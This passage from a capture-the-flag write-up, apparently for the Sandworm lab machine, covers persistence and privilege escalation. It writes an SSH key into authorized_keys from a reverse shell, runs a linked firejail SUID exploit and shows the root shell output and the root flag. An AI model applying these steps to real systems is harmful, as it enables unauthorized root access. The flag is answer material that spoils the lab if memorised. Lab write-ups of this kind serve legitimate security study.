    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```
</details>
</details>

<details>
<summary>Escape to Root</summary>

Now that we are free from the firejail, let's establish our ssh keys so we can ssh right into the box and have a comfy shell. 

On the attacking machine run this command and copy the output:
```bash
cat ~/.ssh/id_rsa.pub 
ssh-rsa *key removed*
```
In the unjailed atlas reverse shell, use echo and paste the ssh public key in, then redirect it to ~/.ssh/authorized_keys
```bash
echo '<public.key>' > ~/.ssh/authorized_keys
```
From your attacking machine terminal now ssh in as atlas.
```bash
ssh atlas@ssa.htb
```
Now we can kill off our unjailed reverse shell and use the same terminal to ssh in as atlas a second time, as two sessions will be necessary to attempt the firejail exploit mentioned earlier in this write-up.  
For reference, `suid bit priv esc` [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)

Now that we have ssh sessions we can paste the exploit code in on one window, chmod +x the python script, and then run it with python3.

```bash
python3 exploit.py 
You can now run 'firejail --join=42528' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```
In our second ssh session, or in the reverse shell if you decided to keep it:
```bash
atlas@sandworm:~$ firejail --join=42528
changing root to /proc/42528/root
Warning: cleaning all supplementary groups
Child process initialized in 8.53 ms
atlas@sandworm:~$ su -
root@sandworm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sandworm:~# cat /root/root.txt
2dbafb85127071bfeae30e4f56b47a37
```
</details>
